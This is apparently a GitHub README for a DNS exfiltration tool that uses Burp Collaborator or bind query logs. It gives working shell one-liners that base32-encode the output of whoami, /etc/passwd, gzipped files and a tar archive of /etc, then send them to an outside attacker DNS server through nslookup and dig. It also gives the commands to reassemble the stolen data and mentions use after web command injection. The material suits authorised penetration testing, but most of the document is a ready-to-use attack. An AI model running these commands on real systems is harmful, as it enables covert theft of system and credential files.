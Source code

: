 # DNS-Exfiltrate

Parses bind query logs or private Burp Collaborator output to decode exfiltrated data. 

Burp Collaborator allows appending hostnames to the provided address. For example: assume this is your collaborator address: `q3uv485lz802ad6a7xz6c2izvq1hp6.oastify.com`

You may prepend a 'hostname' (maximum length of a DNS label is 63 bytes), assuming it uses characters safe in a DNS query (such as base32-encoded data, see below). This allows exfiltration (including blind exfiltration) of data via DNS.

Here is the base32-encoded output from `whoami` exfiltrated via Burp Collaborator:

Command:

`a=$(whoami|base32|tr -d =);nslookup $a.q3uv485lz802ad6a7xz6c2izvq1hp6.oastify.com`

Burp Collaborator response:

`O53XOLLEMF2GCCQ.q3uv485lz802ad6a7xz6c2izvq1hp6.oastify.com`

![Screen Shot 2023-01-10 at 2 59 05 PM](https://user-images.githubusercontent.com/14989334/211650128-5d6a8562-3d64-4ec8-b530-bc47ae5a0db0.png)


`dns-parse.py` parses native bind query logs, or private Burp Collaborator output, which may be logged via `tee`:

```
java -jar /root/collaborator/burpsuite_pro.jar --collaborator-server | tee /root/collaborator/collaborator.log
```

Assumes hostnames are encoded in base32 (`A-Z`, `2-7`), which is the most efficent native encoding utility (on most Linux/Unix systems) that is safe for DNS queries. The `=` character (used to pad base32-encoded data to an 8 byte boundary) is not DNS safe, but can be trimmed using `tr -d =` on Linux/Unix systems. `dns-parse.py` appends any missing `=` characters.

Hex encoding is also safe for DNS queries (but is less efficient). I may add hex support in the future. `base64` does not work due to `/` and `+`.

Thanks and credit to [Xavier Mertens](https://www.sans.org/profiles/xavier-mertens/) for his excellent [Internet Storm Center](https://isc.sans.edu/) post: [DNS Query Length... Because Size Does Matter](https://isc.sans.edu/diary/DNS+Query+Length...+Because+Size+Does+Matter/22326)

## Use cases (bash):

Note that you will receive more reliable results by specifying the name server via `dig @`...

In the examples below: `<DNS Name>` is the random name provided by Burp Collaborator. For example: use `q3uv485lz802ad6a7xz6c2izvq1hp6` if your Beef Collaborator address is `q3uv485lz802ad6a7xz6c2izvq1hp6.oastify.com`.

### Exfiltrate a file:

```
cat /etc/passwd | base32 -w 63 | tr -d = | while read a; do dig @<DNS Server> $a.<DNS Server>; done;
```

To recover the file:

```
./dns-parse.py <DNS Name> (query.log|collaborator.log) | base32 -d
```

### Exfiltrate a compressed file:

```
cat /etc/passwd | gzip - | base32 -w 63 | tr -d = | while read a; do dig @<DNS Server> $a.<DNS Server>; done;
```

To recover/unzip the file:

```
./dns-parse.py <DNS Name> (query.log|collaborator.log) | base32 -d | zcat
```

### Exfiltrate a compressed tar archive of a directory:

Note that exfiltrating /etc on an Ubuntu Linux system worked perfectly (but took a while). It took 35 minutes, requiring 45,382 DNS requests, resulting in a 1.8 megabyte tar.gz file. Needless to say: the files/directories contained in the archive are restricted by the permissions of the running user. For command injection on web sites (using an account such as apache or www-data), many files/directories will likely be missing.

```
tar czf - /etc | base32 -w 63 |tr -d = | while read a; do dig @<DNS Server> $a.<DNS Server>; done;
```

To recover the tar archive:

```
./dns-parse.py <DNS Name> (query.log|collaborator.log) | base32 -d > exfiltrated.tgz
```
